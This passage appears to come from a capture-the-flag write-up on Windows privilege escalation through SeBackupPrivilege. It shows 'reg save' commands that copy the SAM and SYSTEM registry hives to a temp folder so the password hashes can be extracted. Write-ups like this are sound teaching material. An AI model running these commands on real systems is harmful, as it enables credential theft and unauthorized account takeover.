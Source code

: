 ![](Baby-Privileges.png)

Since SeBackupPrivilege is present, it's possible to read all the files on the system for backup purposes, including sensitive files such as the SAM database as discussed [here](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#SeBackupPrivilege).
## Privilege Escalation w/ SeBackup Privilege

To exploit, a temp directory is made and the SAM and SYSTEM hives are copied and then downloaded:

```bash
reg save hklm\sam C:\Temp\SAM
reg save hklm\system C:\Temp\SYSTEM
```
